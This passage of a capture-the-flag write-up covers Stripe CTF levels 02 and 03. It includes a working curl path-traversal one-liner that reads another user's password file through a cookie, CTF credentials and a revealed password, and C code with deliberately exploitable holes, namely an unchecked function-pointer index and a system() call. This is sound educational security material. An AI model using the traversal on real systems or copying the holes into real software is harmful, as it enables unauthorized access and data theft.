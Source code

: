     $out = file_get_contents('/tmp/level02/'.$_COOKIE['user_details']);

So, all you need to do is create a path that will resolve to the password file,
and pass it as a cookie. I did it in curl as a one-liner. Note that the site
uses HTTP Digest Authentication, so you need to give the username and password
for this level. The switch `--digest` will tell curl to use digest
authentication, so the command is:

    curl -s --cookie "user_details=../../home/level03/.password" --user level02:kxlVXUvzv --digest http://ctf.stri.pe/level02.php | grep "<p>"

The password to level03 is: `Or0m4UX07b`

## Level03

This level is where things start to get tricky. The source code for level03
shows that we have a program that converts the first parameter to a number, and
then uses that number to call a function from an array of function pointers,
passing the second parameter as an argument. There's also a bug in the
`capitalize()` - `printf("\n", str);` has an extra parameter. I didn't need it,
though. The important bits of code are as follows:

{{< highlight c >}}
typedef int (*fn_ptr)(const char *);

// [...]

int main(int argc, char **argv)
{
    int index;
    fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

    // [...]

    index = atoi(argv[1]);
    if (index >= NUM_FNS) {
        // [...]
        exit(-1);
    }
    return truncate_and_call(fns, index, argv[2]);
}

// [...]

int truncate_and_call(fn_ptr *fns, int index, char *user_string)
{
    char buf[64];
    // Truncate supplied string
    strncpy(buf, user_string, sizeof(buf) - 1);
    buf[sizeof(buf) - 1] = '\0';
    return fns[index](buf);
}

int run(const char *str)
{
    // This function is now deprecated.
    return system(str);
}
{{< /highlight >}}


[ctf]: https://stripe.com/blog/capture-the-flag
[wrapup]: https://stripe.com/blog/capture-the-flag-wrap-up
[ctfcode]: https://github.com/abrody/stripe-ctf/
[aslr]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[strcpy]: http://pubs.opengroup.org/onlinepubs/009695399/functions/strcpy.html
[pickle]: http://docs.python.org/library/pickle.html
[level06]: https://github.com/abrody/stripe-ctf/blob/master/code/level06/level06.c
[mkfifo]: http://linux.die.net/man/3/mkfifo
[writeup01]: http://blog.zx2c4.com/781
[writeup02]: http://willcodeforfoo.com/2012/02/capture-the-flag/
[writeup03]: https://github.com/dividuum/stripe-ctf
[writeup04]: https://gist.github.com/michaelpetrov/1899630